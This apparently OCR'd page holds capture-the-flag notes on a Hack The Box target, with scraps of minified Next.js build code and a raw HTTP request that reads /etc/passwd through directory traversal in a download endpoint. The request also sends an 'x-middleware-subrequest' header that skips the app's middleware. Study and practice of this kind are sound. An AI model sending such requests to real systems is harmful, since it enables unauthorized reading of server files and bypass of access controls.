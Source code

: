 


,sortedPages:["/","/_app","/_error",

"/docs","/docs/components/layout",
"/docs/components/sidebar","/docs/content/examples",

"/docs/content/getting-started",

"/docs/[section]","/signin"]

/index




*idk if this something*
"./examples.mdx":[2183,183],"./getting-started.mdx":[1894,894]





*idk if i can access any of these*

i="/_not-found",l=""+i+"/page",u="phase-export",s="phase-production-build",c="phase-production-server",f="phase-development-server",d="phase-test",p="phase-info",h="pages-manifest.json",_="webpack-stats.json",m="app-paths-manifest.json",g="app-path-routes-manifest.json",b="build-manifest.json",E="app-build-manifest.json",y="functions-config-manifest.json",P="subresource-integrity-manifest",v="next-font-manifest",R="export-marker.json",O="export-detail.json",S="prerender-manifest.json",j="routes-manifest.json",T="images-manifest.json",A="required-server-files.json",C="_devPagesManifest.json",w="middleware-manifest.json",I="_clientMiddlewareManifest.json",N="_devMiddlewareManifest.json",x="react-loadable-manifest.json",M="server",L=["next.config.js","next.config.mjs","next.config.ts"],D="BUILD_ID",U=["/_document","/_app","/_error"],k="public",F="static",B="__NEXT_DROP_CLIENT_FILE__",H="__NEXT_BUILTIN_DOCUMENT__",X="__barrel_optimize__",W="client-reference-manifest",G="server-reference-manifest",q="middleware-build-manifest",V="middleware-react-loadable-manifest",z="interception-route-rewrite-manifest",Y="dynamic-css-manifest",K="main",$=""+K+"-app",Q="app-pages-internals",J="react-refresh",Z="amp",ee="webpack",et="polyfills",er=Symbol(et),en="webpack-runtime",eo="edge-runtime-webpack",ea="__N_SSG",ei="__N_SSP",el={name:"Times New Roman",xAvgCharWidth:821,azAvgWidth:854.3953488372093,unitsPerEm:2048





},r.e=e=>Promise.all(Object.keys(r.f).reduce((t,o)=>(r.f[o](e,t),t),[])),r.u=e=>"static/chunks/"+e+"."+({183:"6bdbefdb497911d7",894:"73dc0969341e015c"})[e]+".js",


 
 
 href="/api/download?example=hello-world.ts"

>Download the full example <a href="/api/download?example=hello-world.ts">here</a>





*found directory traversal  here*

GET /api/download?example=../../../../../etc/passwd HTTP/1.1
Host: previous.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://previous.htb/api
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
x-nextjs-data: 1
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: next-auth.csrf-token=878abd82aa816783ed93daba74d2fa880db0e9ba2488b925a378f5c8d62e9701%7C80a017003b6a29c1f63a308f3d91af744bc262786b78d02d598d2b2f2a06edd8; next-auth.callback-url=http%3A%2F%2Flocalhost%3A3000%2Fdocs%2Fgetting-started
Priority: u=4
